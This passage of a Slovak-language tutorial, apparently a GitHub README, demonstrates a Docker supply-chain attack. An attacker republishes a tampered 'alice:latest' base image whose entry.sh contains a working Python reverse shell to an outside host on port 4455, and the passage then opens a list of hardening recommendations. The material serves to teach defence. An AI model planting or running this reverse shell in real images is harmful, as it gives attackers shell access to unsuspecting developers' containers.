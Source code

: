 Pokiaľ by však nejaký developer využil tento image ako základ pre jeho projekt a neskontroloval si jeho obsah alebo nepoužil presnú verziu. Útočník by mohol vytvoriť novú verziu alice imagu a pridať svoj reverse shell do jeho projektu bez toho aby o tom vedel.

**Dockerfile noveho projektu**
```bash
FROM alice:latest

WORKDIR /tmp

COPY . .
```

Vývojár by si potom vybuildoval vlastný image, do ktorého by si pridal svoje veci a spúšťal tak svoju aplikáciu.
```bash
docker build --rm -f "evilimage/Dockerfile" -t projekt:latest "evilimage"
```

Teraz už len stačí aby útočník do svojho imagu s alice pridal reverse shell alebo akýkoľvek škodlivý kód, znova vytvoril alice image a zverejnil ho.

**nový zákerný entry.sh**
```bash
#!/bin/bash

cat /tmp/alice.txt
python3 -c 'import pty;
import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("vpn.marek-vigas.sk",4455));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```bash
docker build --rm -f "evilimage/aliceimage/Dockerfile" -t alice:latest "evilimage/aliceimage"
```

Vývojár spraví úpravy na svojom programe a vytvorí si novú verziu jeho imagu, nevediac o tom že už použil novú verziu alice imagu, ktorý je nakazený a keď spustí svoj projekt, útočník získa reverse shell do jeho kontajneru. 

```bash
docker build --rm -f "evilimage/Dockerfile" -t projekt:latest "evilimage"

docker run --rm -it alice:latest
```

# Odporúčanie pri vytváraní docker aplikácií
Téma bezpečnosti docker aplikácia je veľká a dala by sa rozoberať z rôznych uhlov pohľadu ako je napríklad nasadenie cez kubernetes, udržiavanie, monitorovanie, ochrana pred DDOS útokmi. Ja som vytvoil zoznam pravidiel, ktoré ak budeme dodržiavať počas vývoja aplikácie výrazne môžme zvýšiť bezpečnosť našej docker aplikácie.

## Image s minimálnym základom
